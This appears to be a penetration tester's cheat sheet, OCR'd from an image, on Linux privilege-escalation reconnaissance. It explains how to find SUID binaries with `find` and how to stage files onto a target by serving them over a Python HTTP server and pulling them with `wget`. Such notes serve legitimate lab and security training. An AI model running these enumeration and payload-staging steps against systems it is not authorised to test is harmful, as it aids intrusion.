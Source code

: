 find / -user root -perm /4000 2&gt; /dev/null  
^ ^-----------------^  
| ^  
| |\_\_\_\_\_\_\_\_\_\_\_\_ ignores all the output that doesn't match  
| the condition  
|\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_ suid | 2000 sgid  
  
`find / -perm -u=s -type f 2>/dev/null`  
**Finding SUID Binaries**  
  
We already know that there is SUID capable files on the system, thanks
to our LinEnum scan. However, if we want to do this manually we can use
the command: **"find / -perm -u=s -type f 2&gt;/dev/null"** to search
the file system for SUID/GUID files. Let's break down this command.  
**find** - Initiates the "find" command  
  
**/** - Searches the whole file system  
  
**-perm** - searches for files with specific permissions  
  
**-u=s** - Any of the permission bits *mode* are set for the file.
Symbolic modes are accepted in this form  
**-type f** - Only search for files  
  
**2&gt;/dev/null** - Suppresses errors  
  

# File Transfer

  
if ssh creds available  
scp /file/dir user@ip:/dir  
  
python  
======  
server  
--------------  
`sudo python3 -m http.server 80`  
python -m SimpleHTTPServer 8888  
  
Target  
----------  
wget ip:port/file

# Linux

  
\# Checking the kernel and OS version  
• uname -a  
• cat /etc/os-release  
• lsb-release -a  
• hostnamectl  
• cat /etc/issue
